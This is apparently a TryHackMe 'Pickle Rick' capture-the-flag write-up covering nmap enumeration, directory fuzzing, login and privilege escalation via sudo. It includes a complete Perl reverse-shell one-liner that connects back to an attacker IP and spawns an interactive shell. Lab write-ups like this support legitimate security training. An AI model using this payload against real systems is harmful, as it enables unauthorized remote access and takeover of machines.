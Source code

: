 ```yaml
---
title: TryHackMe | Pickle Rick
author: Zeropio
date: 2022-05-09
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/pickle-rick
---
```



# Enumeration
We start a nmap at the IP.
```
Nmap scan report for 10.10.253.214
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:50:7b:e1:4c:53:63:5d:2b:c6:84:1a:66:e9:a0:04 (RSA)
|   256 19:a8:de:3e:70:d9:ba:ff:d5:2f:46:60:a2:e1:c3:e3 (ECDSA)
|_  256 70:de:54:34:34:75:c3:77:56:9e:00:b3:84:93:fe:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can do a curl to the webpage and get a user in the html:
```console
curl -i http://10.10.253.214/
```

We can try a fuzzer to the webpage:
```console
dirsearch -r -u http://10.10.253.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php,txt,html -f
```

# Explotation
We can try to access with ssh but we need the RSA.

We can get a **login.php** and access with the creds. We can see a command execution and try a reverse shell with perl:
```console
perl -e 'use Socket;$i="10.18.91.218";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

# Privilege Escalation
If we list all the www-data privileges we can see that we can executed any code, so we can get root.
```console
> sudo -l
> sudo su
```
